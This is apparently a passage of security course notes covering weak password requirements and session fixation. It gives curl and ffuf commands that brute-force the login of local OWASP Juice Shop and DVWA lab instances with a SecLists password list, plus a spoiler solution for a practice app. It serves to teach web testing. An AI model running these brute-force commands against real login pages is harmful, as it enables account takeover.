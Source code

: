 # Video 4.3

* [CWE-521: Weak Password Requirements](https://cwe.mitre.org/data/definitions/521.html)
* [GitHub: SecLists](https://github.com/danielmiessler/SecLists)

```sh
curl 'http://localhost:3000/rest/user/login' -H 'Content-Type: application/json' -d '{"email":"admin@juice-sh.op","password":"admin"}'
```

```sh
# don't want to skip 401, as we can get some brute-force prevention error message
# with 401 Unauthorized code
ffuf -u 'http://localhost:3000/rest/user/login' -H 'Content-Type: application/json' -d '{"email":"admin@juice-sh.op","password":"FUZZ"}' -fs 26 -w /usr/share/seclists/Passwords/probable-v2-top12000.txt:FUZZ
```

# Video 4.4

* [CWE-384: Session Fixation](https://cwe.mitre.org/data/definitions/384.html)
* [File: dvwa-session.sh](dvwa-session.sh)

```sh
# execute curl 2 times a second
for i in {1..10}; do dvwa-session;sleep 0.5; done
```

```sh
date -d @UNIX_TIME
```

# Video 4.5

<details>
  <summary>Spoiler: Solution for vuln-app</summary>

    curl http://localhost:10003/api/topSecret -H 'Content-Type: application/json' -d '{"apiKey":"V2VsbERvbmVSZWNvZ25pemluZ0Jhc2U2NCEh"}'
</details>
